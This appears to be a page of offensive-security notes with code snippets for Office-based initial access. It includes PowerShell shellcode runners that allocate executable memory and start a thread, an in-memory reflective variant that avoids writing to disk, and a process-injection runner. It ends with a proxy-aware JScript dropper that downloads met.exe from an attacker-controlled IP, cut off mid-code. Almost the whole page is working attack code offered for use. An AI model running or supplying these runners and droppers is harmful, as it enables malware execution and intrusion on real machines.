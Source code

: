###### Office Powershell Shellcode Runner via Add-Type Compilation

Use P/Invoke to allocate executable memory via VirtualAlloc, copy shellcode, and execute via CreateThread. *Note, compilation of the Powershell's C# code compilation temporarily writes to disk.*

[Full Source](../src/powershell/ScRunner.ps1)

```
[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)

$thandle = [Kernel32]::CreateThread(0,0,$addr,0,0,0);

[Kernel32]::WaitForSingleObject($tHandle, [uint32]"0xFFFFFFFF")
```

###### Office Powershell Basic Shellcode Runner In Memroy

Add-Type calls csc compiler, writing to disk. Dynamic lookup executes in memory via DelegateType Reflection. 

[Full Source](../src/powershell/ReflectiveScRunner.ps1)

```
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)
$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr],[UInt32], [IntPtr])([IntPtr]))).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32])([Int]))).Invoke($hThread, 0xFFFFFFFF)
```

###### Office Powershell Process Injection Shellcode Runner In Memory

[Full Source](../src/powershell/ReflectiveInject.ps1)

```
$ProcessID = 8308
$hProcess = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll OpenProcess), `
(getDelegateType @([UInt32], [bool], [UInt32])([IntPtr]))).Invoke(0x001F0FFF, $false, $ProcessID)
if (!$hProcess)
{
    Throw "Unable to open a process handle for PID: $ProcessID"
}
Write-Host "[+] hProcess: " $hProcess
```

#### Windows Script Host (WSH)

##### Proxy-aware JScript Dropper

```
var url = "http://192.168.49.83/met.exe"
var Object = new ActiveXObject('Msxml2.ServerXMLHTTP.6.0');
Object.setProxy(2,"http://192.168.83.12:3128","");
Object.open('GET', url, false);
Object.send();

if (Object.Status == 200)
{
    var Stream = WScript.CreateObject('ADODB.Stream')

    Stream.Open();
    Stream.Type = 1; //adTypeBinary
    Stream.Write(Object.ResponseBody);
```